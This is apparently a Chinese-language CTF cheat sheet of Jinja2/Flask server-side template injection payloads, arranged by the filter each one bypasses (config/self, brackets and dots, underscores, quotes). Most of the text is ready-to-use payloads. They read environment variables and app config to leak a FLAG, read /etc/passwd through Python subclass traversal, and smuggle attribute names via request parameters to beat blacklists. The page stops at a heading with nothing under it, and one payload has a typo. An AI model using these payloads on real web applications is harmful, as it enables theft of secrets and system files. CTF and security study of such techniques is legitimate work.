 	{{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG]}} 

#### 过滤config、self 

利用url_for、g、request、namespace、lipsum、range、session、dict、get_flashed_messages、cycler、joiner、config等

如果上面提到的 config、self 不能使用，要获取配置信息，就必须从它的全局变量（访问配置 current_app 等）。例如：

```
{{url_for.__globals__['current_app'].config.FLAG}}
{{get_flashed_messages.__globals__['current_app'].config.FLAG}}
```

这个里有`__self__`,黑名单不能用。

	{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}



#### 过滤了`[]  .`

pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。

	''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()

在这里使用 pop 函数并不会真的移除，但却能返回其值，取代中括号来实现绕过。

若`.`也被过滤，使用原生 JinJa2 函数 `|attr()`

即将 request.__class__ 改成 request|attr("__class__") 



#### 过滤下划线`_`

利用 request.args 的属性

	{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__

将其中的 request.args 改为 request.values，则利用 post 的方式进行传参。

GET:

{{ ''[request.value.class][request.value.mro][2][request.value.subclasses]()[40]('/etc/passwd').read() }}

POST:

	class=__class__&mro=__mro__&subclasses=__subclasses__


#### 过滤引号 `"`

request.args 是 flask 中的一个属性，为返回请求的参数，这里把 path 当作变量名，将后面的路径传值进来，进而绕过了引号的过滤。

	{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd


#### 一些关键字被过滤。
